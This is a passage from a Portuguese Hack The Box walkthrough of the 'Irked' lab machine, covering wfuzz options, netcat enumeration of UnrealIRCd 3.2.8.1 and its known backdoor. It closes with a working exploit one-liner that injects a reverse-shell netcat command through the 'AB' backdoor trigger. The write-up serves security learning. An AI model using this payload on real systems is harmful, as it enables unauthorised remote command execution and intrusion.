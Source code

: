 > -z file,/usr/share/wordlists/dirbuster/directory-list-2.3-small.txt --> indicamos que o método será dicionário e o arquivo especificado

> --hc 404 --> Não vai exibir os arquivos que deram erro 404.

> -t 200 --> Quantidade de threads (pra ir mais rápido)

## Enumeração do UnrealIRCd

Primeiro passo devemos adicionar o Irked no /etc/hosts
Isso server pra ficar melhor a vizualização, iremos ver Irked ao invés de 10.10.10.117

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-irked/I_hosts.png)

Segundo passo é com o *nc* mesmo faço uma conexão na porta 8067, que é a porta que roda o UnrealIRC

Comandos que precisam ser dados pra verificarmos a versão (olhando como a aplicação funciona na internet verificar isso)

PASS 123
NICK irked
user irked 456 789 :irked

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-irked/I_nc.png)

Opa,Unreal3.2.8.1

### Procurando por exploits para essa versão

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-irked/I_searchsploit.png)

# Exploração sem o Metasploit Framework

Backdoor Command Execution

Vamos verificar como isso funciona, como que conseguimos fazer o backdoor funcionar sem usar o metasploit

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-irked/I_exp.png)

> https://lwn.net/Articles/392201/

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-irked/I_exp1.png)

Basicamente se mandarmos a string "AB" ativamos a função system() e podemos executar comandos, interessante, não?

## Realizando a exploração

> echo "AB; nc -e /bin/bash 10.10.16.119 443" | nc 10.10.10.117 8067

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-irked/I_exp2.png)
